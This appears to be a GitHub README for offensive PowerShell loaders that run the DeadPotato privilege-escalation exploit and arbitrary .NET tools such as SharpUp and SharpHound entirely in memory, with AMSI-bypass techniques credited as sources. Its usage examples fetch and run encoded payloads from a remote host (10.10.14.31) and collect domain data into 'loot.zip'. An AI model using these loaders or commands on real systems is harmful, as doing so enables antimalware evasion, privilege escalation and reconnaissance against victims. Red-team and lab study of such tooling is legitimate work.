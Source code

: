 ### Inspiration and code that has been incorporated into these scripts

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b

---

- **Invoke-DeadPotato** – A specific loader for the DeadPotato exploit
- **Invoke-InMemoryDotNet** – A generalized loader for any .NET assembly with a static `Main(string[] args)` method.


## Invoke-DeadPotato

`Invoke-DeadPotato` is a specialized PowerShell loader designed to execute the **[DeadPotato](https://github.com/lypd0/DeadPotato)** .NET exploit (or any similarly structured binary) directly from memory. It supports embedded or remotely hosted gzipped+Base64 payloads.

### Features

- Loads DeadPotato (or similar tool) from Base64+gzipped payload
- Executes in-memory without touching disk
- Allows command-line arguments (e.g., `-cmd whoami`)
- Captures console output and returns result

### Parameters

| Parameter    | Description                                      |
|-------------|--------------------------------------------------|
| `-Arguments` | Command-line string to pass to DeadPotato        |
| `-UseRemote` | Optional URL to load gzipped+Base64 binary       |

### Examples

#### Run embedded DeadPotato
```powershell
Invoke-DeadPotato -Arguments "-cmd whoami"
```

### Notes

- The class name must be `DeadPotato.Program` with a public static `Main` method (will need to download, change line `static void Main(string[] args)` to `public static void Main(string[] args)`, and recompile).
- You must insert a valid gzipped Base64-encoded payload into the `$b64` variable.
- Output is captured and returned as a string.


## Invoke-InMemoryDotNet (not extensively tested yet)

`Invoke-InMemoryDotNet` is a PowerShell loader that dynamically executes any .NET assembly in memory. It supports embedded payloads or remote retrieval via URL. The assembly must expose a public static `Main(string[] args)` method.

### Features

- Executes gzipped + Base64-encoded .NET assemblies entirely in memory
- Supports embedded payload or remote download via HTTP/S
- Captures and returns all `Console.WriteLine` output
- Generic support for any .NET tool with a `Main` entry point (e.g., SharpUp, SharpHound, Seatbelt)

### Parameters

| Parameter    | Description                                       |
|-------------|---------------------------------------------------|
| `-Arguments` | String of arguments to pass to the Main method    |
| `-UseRemote` | URL pointing to a gzipped+Base64-encoded payload  |
| `-TypeName`  | Optional: class name containing the Main method   |
| `-MethodName`| Optional: method to invoke (default: `Main`)      |

### Examples

#### Run embedded payload
```powershell
Invoke-InMemoryDotNet -Arguments "-f all"
```

#### Download SharpUp and run
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpUp.gz.b64" -Arguments "-f all"
```

#### Execute SharpHound collector
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpHound.gz.b64" -Arguments "--CollectionMethod All --ZipFileName loot.zip"
```

